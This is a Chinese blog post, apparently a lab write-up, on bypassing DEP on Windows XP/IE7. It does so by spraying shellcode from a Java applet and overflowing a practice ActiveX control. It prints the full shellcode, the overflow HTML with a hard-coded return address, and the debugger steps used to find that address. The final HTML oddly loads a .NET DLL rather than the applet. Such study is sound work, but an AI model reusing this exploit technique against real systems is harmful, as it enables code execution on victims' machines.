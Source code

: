 ```yaml
---
layout:		post
title:		利用Java applet挑战DEP
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008 
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7  
>JRE版本: 1.4.2_06
<!-- more -->


### 0x00 前期准备

新建一个Java applet

```
//Shellcode.java
import java.applet.*;
import java.awt.*;

public class Shellcode extends Applet{
    public void init(){
        Runtime.getRuntime().gc();
        StringBuffer buffer=new StringBuffer(255);

        buffer.append("\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842" +
            "\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78" +
            "\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af" +
            "\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978" +
            "\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c" +
            "\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530" +
            "\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50" +
            "\u90d7");
    }
}
```

编译生成*.class文件

```
> javac path/to/*.java -target 1.1
```

新建文本文件, 贴入以下代码, 更名为test.html

```
<html>
<body>
<applet code=Shellcode.class width=300 height=50></applet>
<script>alert("开始溢出!");</script>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s+="\u9090\u9090";
test.test(s);  
</script>  
</body>  
</html>
```

将VulnerAX_DEP.ocx和以上两个文件一起放到wwwroot目录, 注册*.ocx文件


### 0x01 exploit

打开IE7.0, 访问http://127.0.0.1/test.html, 再双击打开test.html文件

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x00.png)

来到这里OD附加上去, 选择"E"打开模块, ocx成功加载

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x01.png)

检索shellcode的开始几个字节, 定位到0x1454D9FC

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x02.png)

修改test.html

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\uD9FC\u1454";
test.test(s);
</script>
</body>
</html>
```

关闭调试, 直接运行, pwn~

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x03.png)